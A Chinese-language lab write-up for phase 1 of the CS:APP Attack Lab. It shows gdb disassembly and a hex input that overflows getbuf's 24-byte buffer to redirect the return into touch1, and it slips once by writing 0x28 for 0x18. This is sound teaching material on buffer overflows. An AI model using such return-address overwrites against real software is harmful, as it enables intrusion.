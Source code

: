 # CS:APP Attack lab


## 实验描述

本次实验利用程序需要外部输入的特点，输入机器码对程序返回值覆盖，以达到攻击的目的，即在 getbuf 函数需要的输入中做手脚，以致不能正常返回，执行攻击代码。



## 第一阶段

第一阶段中栈随机化未开机，可以得知内存位置的确切地址，且栈中机器码可执行。

那么我们将需要执行的操作码和地址输入机器码即可。

### phase_1

第一关非常简单，题目主要我们在 getbuf 执行完成后执行 touch1,touch1()无参。

```assembly
(gdb) disas getbuf
Dump of assembler code for function getbuf:
   0x0000000000401688 <+0>:	sub    $0x18,%rsp
   0x000000000040168c <+4>:	mov    %rsp,%rdi
   0x000000000040168f <+7>:	callq  0x4018ca <Gets>
   0x0000000000401694 <+12>:	mov    $0x1,%eax
   0x0000000000401699 <+17>:	add    $0x18,%rsp
   0x000000000040169d <+21>:	retq
End of assembler dump.
(gdb) disas touch1
Dump of assembler code for function touch1:
   0x00000000004016a0 <+0>:	sub    $0x8,%rsp
   0x00000000004016a4 <+4>:	movl   $0x1,0x2029ee(%rip)        # 0x60409c <vlevel>
   0x00000000004016ae <+14>:	mov    $0x402e4e,%edi
   0x00000000004016b3 <+19>:	callq  0x400bd0 <puts@plt>
   0x00000000004016b8 <+24>:	mov    $0x1,%edi
   0x00000000004016bd <+29>:	callq  0x401ab5 <validate>
   0x00000000004016c2 <+34>:	mov    $0x0,%edi
   0x00000000004016c7 <+39>:	callq  0x400d60 <exit@plt>
End of assembler dump.
```

可以看到，getbuf 开出了 0x18，即 24 字节的空间，touch1 的地址为 0x4016a0。那么我们只需填满这 0x28 空间，再以 touch1 地址替代返回值。注意：x86-64 机器中，采用小端法，其低位字节存放在低地址，故我们输入数据时，先输入低位。

```bash
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
a0 16 40 00 00 00 00 00
```

转换后输入即可
